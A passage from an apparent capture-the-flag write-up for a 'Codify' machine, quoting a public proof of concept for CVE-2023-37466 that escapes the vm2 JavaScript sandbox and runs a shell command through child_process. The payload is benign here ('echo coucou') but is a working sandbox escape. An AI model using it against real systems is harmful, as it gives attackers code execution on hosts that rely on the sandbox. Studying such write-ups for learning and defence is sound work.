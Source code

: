 <img src="/assets/img/Codify/codi3.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

An interesting thing is that this uses the `vm2` library, which has some interesting CVE :)

## Exploiting vm2

By typing `vm2 exloit` on Google, we find [this](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) proof of concept for the `CVE-2023-37466` which looks like this code :

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo coucou');
}
`

console.log(vm.run(code));
```
